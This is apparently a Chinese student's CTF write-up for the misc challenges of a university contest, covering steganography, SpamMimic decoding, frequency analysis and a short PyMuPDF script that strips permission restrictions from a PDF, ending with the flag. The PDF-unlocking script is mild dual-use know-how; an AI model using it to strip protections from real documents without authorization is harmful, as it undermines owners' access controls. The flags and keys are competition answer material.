

输入`popipa_is_ok!`进入下一关

#### 第三关

有一张奇妙色图和一个self-referential_formula文本文件，里面是一个雷霆大数。还是从文本入手，搜索文件名搜到了塔珀自指公式以及对应的解密网站，将大数字输入后得到了倒过来的文字：`key: red?green_blue`



密钥应该往哪输入呢？先将图片拖入超级整合型图片隐写网站 **[Aperi'Solve](https://www.aperisolve.com)**，发现Zesteg扫描出来了一个文本文件


使用Zesteg提取并输入密钥`key: red?green_blue`得到了spam.txt，打开发现是一个类似于通信的一长串英文。上网搜索spam，发现了隐写工具网站 **[SpamMimic](https://spammimic.com/decode.shtml)**（将一段简短秘密信息编码成看起来像普通垃圾邮件的文本）

解码得到了一串神秘密文：
```
iispf11apfumts1m1i_1amm_u1apU_tpmmsUfs313@i@1abUs_1p1_sbp@mU@a__p_fisUputfas_sm_@1s@si@i1_sfiipm1_asspi@U_@pu_Uti1psu31sisppub3i__sf3@311iiU1Ut3s@@s@1imu11tUmsp@@UfiUips@mts1mmfs_f_f3p@tmUm@p11__a@mspppf_mU1smf_p@tmUutafU_@utmpsUpmmt@fmm@fpt31@@@if_mtt@U@pb@@Um@sf@tbmftUisbmmu_Ummpps_pU1pufpt__Usmm1ptfa1_m@_3s11p@bfs1@fbsumfs@bs_f1upUm@mfmtm_piUssmu@tbpiU@pu3s@3Uma_ppmuu@@fmpmatiu_U@UUpa_a1mapmm3is@@_@mumfpa_iU
```
此时发动鬼脑！注意到，有重复出现的字符，并且有经典leetcode语中将a写成@的痕迹，于是推测是字频加密，使用在线工具统计字频再升序读取：


得到密钥：`b3autifU1_sp@m`(一开始降序读还以为是什么maps 笑死)

输入密钥进入第四关--->

#### 第四关

打开是一个被剥夺了编辑权限的pdf文件，让ai写一个解密脚本：
```python
import pymupdf
d = pymupdf.open('dual_pdf.pdf')
d.authenticate('')                    # 空口令 -> 返回 2，拿到 owner 权限
d.save('dual_pdf_unlocked.pdf',
       encryption=pymupdf.PDF_ENCRYPT_NONE,   # 干脆不加密
       permissions=-1,                        # 权限位全 1（-4 = 全放行）
       garbage=3, deflate=True)


```
文件名dual_pdf提示我们是双层pdf，将文本复制出来得到了另一层文本：


将可读字符连起来就得到了密钥`d1nos@ur_k3y`，进入最后阶段————

#### FINAL


又是三元编码：`hhh、草、{思考}` 观察发现`hhh🤔hhh`永远一起出现，于是把其当作分隔符，草和🤔分别映射0和1即可转ascii码得到flag：

`whuctf{Me0w_d3feated_a11_Ch@ll3nges_And_F1nally_got_1ts_Tr3asure}`

猫窝系列终于被打穿辣！！（hiehie

# 后记

这次只做了misc部分，一是好玩，二是其他方向都不太会，三是其他方向即使拿ai梭了也不会写wp。这两天可以毫不夸张地总结成吃饭睡觉打ctf，最后也是成功拿到了misc方向榜一。不过正如49师傅所言，“misc虽好但不要沉迷哟”，misc终究只是引门师傅，后续需要向其他的方向拓展才是长久之计。

进入大学体验的第一场竞赛，酣畅淋漓！（出题师傅和运维大佬们辛苦了）

>Capture the Flag, catch the future.
